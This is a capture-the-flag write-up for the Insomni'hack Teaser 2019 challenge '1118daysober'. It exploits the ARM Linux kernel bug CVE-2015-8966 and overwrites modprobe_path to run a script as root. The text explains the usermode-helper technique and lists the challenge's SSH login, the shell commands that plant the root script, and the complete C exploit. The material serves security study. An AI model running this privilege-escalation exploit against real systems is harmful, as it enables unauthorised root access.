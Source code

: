 ```yaml
---
title: Insomni'hack Teaser 2019 1118daysober
updated: 2019-02-09 13:00:00
tags: [writeup,reversing,pwn]
---
```


- [1118daysober : Insomni'hack Teaser 2019](#orge54149f)
  - [usermode-helper API](#orgb555ee6)


<a id="orge54149f"></a>

# 1118daysober : Insomni'hack Teaser 2019

    The kernel of this vm is vulnerable to CVE-2015-8966, exploit it to gain root privileges and read /flag/flag.txt !
    Terminal ssh 1118daysober@1118daysober.teaser.insomnihack.ch
    Password: 1118daysober

We were given a arm qemu image and the information that it is vulnerable to `CVE-2015-8966`

```sh
$ ls
config  flag_part.img  README.txt  rootfs.img  run.sh  vmlinux  zImage
$ ./run.sh
$ uname -a
Linux (none) 4.9.118-00001-gab86c83a4f15 #1 SMP Sun Jan 13 14:34:37 CET 2019 armv7l GNU/Linux
```

Lucky I was able to find [POC](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html) online for this CVE by the person who found this bug. So the bug was in the `fcntl64` legacy syscall. This function will call `set_fs(KERNEL_DS)` and it will not be set back to `USER_DS` when some particular flag was specified.

So the `addr_limit` variable in the `task_struct` specify the boundary of userspace and kernelspace address and when some pointers are passed to the kernel via syscall it is verified that these pointers are in the range of userspace using `access_ok()` macros. So basically `read(0, (void*)0xc0008000, 8)` wouldn't work since we have specified a kernel address. So there are times when we need to bypass this check to specify a kernel address. The `set_fs()` is used to change this, so `set_fs(KERNEL_DS)` set it to large value so that `access_ok` always return true. So after triggering the bug we can give kernel address.

I was able to give kernel addresses, but noticed that while giving user space pointer it was crashing , I could not figure out the exact cause of this. Anyway now we can only use kernel address. The main part of this post is to discuss about a cool trick, which can be used since we have a arbitrary read/write primitive in kernel space to exploit this bug.


<a id="orgb555ee6"></a>

## usermode-helper API

Using this API we can execute binaries from kernel space, and the best part is it will be executed as `root`. One of the use case of this to load required module dynamically when new device is plugged in or if we have specified a program to process the code dump in core_pattern. This is a great article which talks about this API **[Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)**

If we can trigger a event which will execute this code path and if we can control the program executed we can run program as `root`.

So when you execute a program Linux searches through it internal data structure figure out the binary format of the program and the specific loader to load the program into memory and start executing it . And if that process fails if checks if there is any kernel module that will help it to load the binary of this specific format. For that it requires to execute `modprobe` command and the kernel used this API to execute and load module.

```c
do_execve()
  do_execveat_common()
     __do_execve_file()
	  exec_binprm()
	    search_binary_handler()
	      request_module()
              __request_module()
	          call_modprobe()
	            call_usermodehelper_setup()
	            call_usermodehelper_exec()
```

```c
/*
	modprobe_path is set via /proc/sys.
*/
char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe";
static int call_modprobe(char *module_name, int wait)
{
	struct subprocess_info *info;
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/usr/sbin:/bin:/usr/bin",
		NULL
	};

	char **argv = kmalloc(sizeof(char *[5]), GFP_KERNEL);
	if (!argv)
		goto out;

	module_name = kstrdup(module_name, GFP_KERNEL);
	if (!module_name)
		goto free_argv;

	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
}

```

So if we can overwrite the `modeprobe_path` and if you try to execute a binary of invalid format it will execute the specified binary.

There are also other place in the code base were we can use the same trick to get code execution . like `poweroff_cmd` Since we have a write primitive in kernel space we can use it to overwrite the `modeprobe_path` using read syscall. Then trigger the code path to execute specified file.

```c
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
```

Then trigger it with

```sh
$ echo -ne '#!/bin/sh\n/bin/cp /flag/flag.txt /home/user/flag\n/bin/chmod 777 /home/user/flag\n' > /home/user/pwn
$ chmod +x /home/user/pwn
$ echo -ne '\xff\xff\xff\xff' > /home/user/ll
$ chmod +x /home/user/ll
$ /home/user/ll
```
We will overwrite `modeprobe_path` with `/home/user/pwn`.

Since `ll` contains a invalid magic bit, `request_module` function will be triggers and our `pwn` script will be executed as root which copies the flag can set the permission so that anyone can read it.

Exploit code, most of the code is from the POC.

```c
#define _GNU_SOURCE
#include "libc.h"

#define SEEK_SET  0       /* Seek from beginning of file.  */

struct flock
{
  short int l_type;	/* Type of lock: F_RDLCK, F_WRLCK, or F_UNLCK.	*/
  short int l_whence;	/* Where `l_start' is relative to (like `lseek').  */
  unsigned long l_start;	/* Offset where the lock begins.  */
  unsigned long l_len;	/* Size of the locked area; zero means until EOF.  */
  int l_pid;	/* Process holding the lock.  */
};
int try_to_read_kernel(){
  int len;
  int try_bytes = 4;

  /* char * path="/home/user/lll"; */
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
  
  
  return len == try_bytes;
}

__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg){
        
  __asm __volatile (
                    "swi	0x9000DD\n"
                    "mov	pc, lr\n"
                    :   
                    :
                    :
                    );
}

#define F_OFD_GETLK	36
#define F_OFD_SETLK	37
#define F_OFD_SETLKW 38


int _start(){
  int fd = open("/proc/cpuinfo", O_RDONLY);
  struct flock *map_base = 0;

  map_base = (struct flock *)mmap(0x0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

  map_base->l_start = SEEK_SET;
  sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base);
  try_to_read_kernel();
  return 0;
}
```

Reference

* [New Reliable Android Kernel Root Exploitation Techniques](http://powerofcommunity.net/poc2016/x82.pdf)

* [POC CVE-2015-8966](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html)

* [@bata24 kernel note](https://hackmd.io/s/r1BAS2P0z#)

* [Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)
